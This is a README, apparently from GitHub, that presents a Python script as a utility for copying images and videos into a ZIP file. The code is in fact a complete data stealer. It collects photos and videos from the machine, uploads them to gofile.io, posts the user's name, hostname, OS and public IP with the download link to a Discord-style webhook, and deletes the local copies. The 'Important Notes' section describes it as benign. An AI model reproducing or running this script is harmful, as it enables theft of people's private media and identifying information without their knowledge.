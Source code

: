 # Usage Instructions for your Python Script

## Webhook Configuration

Replace `YOUR_WBK_URL` with your own webhook URL.

<details>
<summary>Click to view the code</summary>

```python
wh00k = "YOUR_WBK_URL"
```

</details>

## Python Script

<details>
<summary>Click to view the code</summary>

```python
wh00k = "YOUR_WBK_URL"

import os
import platform
import zipfile
import requests
import json
import shutil
import socket

COLOR_RED = "\033[91m"
COLOR_GREEN = "\033[92m" 
COLOR_MAGENTA = "\033[95m"


def adresse_ip():
    response = requests.get("https://ipinfo.io/json")
    ip_data = json.loads(response.text)
    return ip_data.get('ip', 'N/A')

informations = {
        "Utilisateur": os.getlogin() if os.name == "posix" else None,
        "nom d'hôte": socket.gethostname(),
        "Système d'exploitation": platform.system(),
        "Version du système d'exploitation": platform.release(),
        "Adresse IP": adresse_ip()
}

max_fichiers = 10 
count_per_directory = 0
max_go = 0.99 
dossier_img = "images"
if not os.path.exists(dossier_img):
    os.makedirs(dossier_img) 

def taille_dossier(dossier):
    total_size = 0
    with os.scandir(dossier) as it:
        for entry in it:
            if entry.is_file():
                total_size += entry.stat().st_size
            elif entry.is_dir():
                total_size += taille_dossier(entry.path)
    return total_size / (1024 * 1024 * 1024)

def copier(directory_path):
    global count_per_directory, dossier_img
    taille_images_gb = taille_dossier(dossier_img)
    for root, dirs, files in os.walk(directory_path):
        for file in files:
            if taille_images_gb > max_go:
                print(COLOR_MAGENTA + "[+] Recovered files, Downloading.")
                return 
            if count_per_directory >= max_fichiers:

                count_per_directory = 0
                dossier_img = "images"

            if file.lower().endswith(('.jpg', '.jpeg', '.mp4', '.mov')):
                source_path = os.path.join(root, file)
                destination_path = os.path.join(dossier_img, file)

                taille_mo = os.path.getsize(source_path) / (1024 * 1024)
                if taille_mo > 60:
                    print(COLOR_RED + f"[-] The {file} file exceeds the size limit (60 MB).")
                    continue 

                if os.path.abspath(source_path) != os.path.abspath(destination_path):
                    try:
                        shutil.copy(source_path, destination_path)
                        count_per_directory += 1
                        taille_images_gb = taille_dossier(dossier_img)
                        prcent = taille_images_gb*100
                        print(COLOR_GREEN + f"Images / videos found: {prcent:.2f} %")
                    except PermissionError as e:
                        print(COLOR_RED + "[*]")
                else:
                    print(COLOR_RED + "[-]")

repertoire_actuel = os.getcwd() 
copier(repertoire_actuel)

with zipfile.ZipFile("images.zip", "w", zipfile.ZIP_DEFLATED) as zipf:
        for root, dirs, files in os.walk(dossier_img):
            for file in files:
                zipf.write(os.path.join(root, file), file)


upload_url = "https://store1.gofile.io/uploadFile"

fichier_zip = "images.zip"

with open(fichier_zip, "rb") as file:
    files = {"file": file}

    response = requests.post(upload_url, files=files)

    if response.status_code == 200:
        data = response.json()

message = {
    "embeds": [
        {
            "title": "Images found on the device",
            "color": 000000000,
            "fields": [
                {"name": "User", "value": informations["Utilisateur"], "inline": True},
                {"name": "Host name", "value": informations["nom d'hôte"], "inline": True},
                {"name": "Operating system", "value": informations["Système d'exploitation"], "inline": True},
                {"name": "Version of operating system", "value": informations["Version du système d'exploitation"], "inline": True},
                {"name": "Ip adress", "value": informations["Adresse IP"], "inline": True},
                {"name": "ZIP file link", "value": data["data"]["downloadPage"], "inline": False}
            ]
        }
    ]
}
response = requests.post(wh00k, json=message)
print(COLOR_GREEN + "[++] Download complete.") 
shutil.rmtree(dossier_img)
os.remove("images.zip") 
```

</details>

## Running the Script

1. Configure the webhook URL as shown above.
2. Run the script in your Python environment.

## Important Notes

- This script copies image and video files from the specified directory to a destination folder.
- It then creates a ZIP file from the copied images and videos.
- Finally, it uploads the ZIP file to the specified file upload service and sends a notification via the webhook.

## subscribe !
<details>
    <summary>click to see my differents accouts</summary>
    - tiktok: [douxx.py](https://tiktok.com/@douxx.py)
    - discord: [douxx.py](https://discord.gg/dXMnMsEuG4)
    - github: [douxxu](https://github.com/douxxu)
</details>

